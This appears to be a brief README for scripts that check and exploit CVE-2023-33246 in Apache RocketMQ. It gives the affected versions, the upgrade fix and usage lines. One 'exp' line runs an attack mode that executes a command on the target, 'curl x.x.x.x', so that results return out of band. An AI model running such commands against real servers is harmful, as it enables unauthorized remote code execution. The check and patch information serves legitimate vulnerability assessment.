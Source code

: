 
# CVE-2023-33246

## 影响版本
Apache RocketMQ through 5.1.0

## 修复方案
upgrade to version 5.1.1 above for using RocketMQ 5.x    
4.9.6 above for using RocketMQ 4.x

## check
```python
python check.py --ip 127.0.0.1
```

## exp
```python
python check.py --file test.txt --attack --command "curl x.x.x.x"
```
利用带外显示结果

## 更新记录
1. 重新优化check 和exp 脚本，合并功能
2. 添加java 版本的检测程序